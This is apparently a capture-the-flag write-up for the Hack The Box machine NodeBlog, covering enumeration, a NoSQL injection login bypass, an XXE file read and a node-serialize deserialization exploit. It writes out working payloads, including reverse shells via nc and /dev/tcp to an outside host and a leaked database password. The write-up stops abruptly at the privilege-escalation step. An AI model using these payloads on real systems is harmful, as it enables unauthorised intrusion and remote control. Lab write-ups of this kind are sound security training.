








# NodeBlog
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~]
└─$ nmap -p- -Pn 10.10.11.139 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-23 20:10 BST
Nmap scan report for 10.10.11.139 (10.10.11.139)
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
```
└─$ nmap -p22,5000 -sC -sV -Pn 10.10.11.139 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-23 20:30 BST
Nmap scan report for 10.10.11.139 (10.10.11.139)
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.57 seconds

```
- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.139:5000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.139:5000
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/23 20:32:12 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 1002]
/Login                (Status: 200) [Size: 1002]

```
## Foothold/User
- We see the `login` page
  - Let's play with it



- Trying `SQLI` had no result
  - So let's also try [NoSQLI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)
  - If we test for `json` version of Authentication Bypass in `NoSQLI` we have a hit
    - We need to change `Content-Type` to `applicaiton/json`
    - And used the payload: `{"user": {"$ne": null}, "password": {"$ne": null}}`
  - We can either intercept and change the headers
  - Or send the request to `Repeater`, get `auth` cookie and set it in the browser to continue




- There's an `Upload` option, if we click it and select any file, it returns error with a path `/articles/xml`
  - Browser treats tags as `HTML`




- Create a test `xml` file and upload it
```
<post>
        <title>TEST</title>
        <description>TEST</description>
        <markdown>
## TEST
Test
        </markdown>
</post>
```

- And it works



- Let;s try `XXE`
  - We can test the payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files)
    - Make sure to craft payload into the format the site expects
  - We can set every field to entity `&file` and the payload works for all of them

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>&file;</title>
        <description>&file;</description>
        <markdown> &file; </markdown>
</post>

```


- So I was stuck here for a while, until I made a mistake in `json` while sending `/login` info and I got an `error` message



- So now we know that the `app` is running in `/opt/blog`
  - We need to test for `app.js`, `server.js`, `main.js` (Basic files for frameworks)



- Let's analyze it
```
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
``` 
- So the `node-serialize` looks interesting, since improper deserialization could lead to bad things
  - https://portswigger.net/web-security/deserialization
  - And we have a [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md#node-serialize)
  - We know that our `cookie` is a url-encoded `json`



- Let's try it
  - `{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.16.5', function(error,stdout, stderr) { console.log(stdout) });}()"}`
  - Encode as `url` and send it


- Since we got `rce`, let's get a shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.5 6666 >/tmp/f`
  - By the way, there was another trick to get a shell
    - We encode revshell payload as `base64`
      - `echo 'bash -i >& /dev/tcp/10.10.16.5/6666 0>&1' | base64`
      - And in the payload itself add it as: `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzY2NjYgMD4mMQo= | base64 -d| bash`


- I couldn't read the user flag from `/home/admin` since it didnt have `x` permissions set
  - But admin is the owner of the folder, we can set permissions
  - run `chmod +x /home/admin` and get the flag

## Root
- Enumerate
  - We don't have password to check `sudo` rights
  - No groups
  - We have `mongodb` running on port `27017`


- Let's enumerate it
  - `admin:IppsecSaysPleaseSubscribe`
  - Another way to do it is by using `mongodump` and `bsondump`


- `sudo`



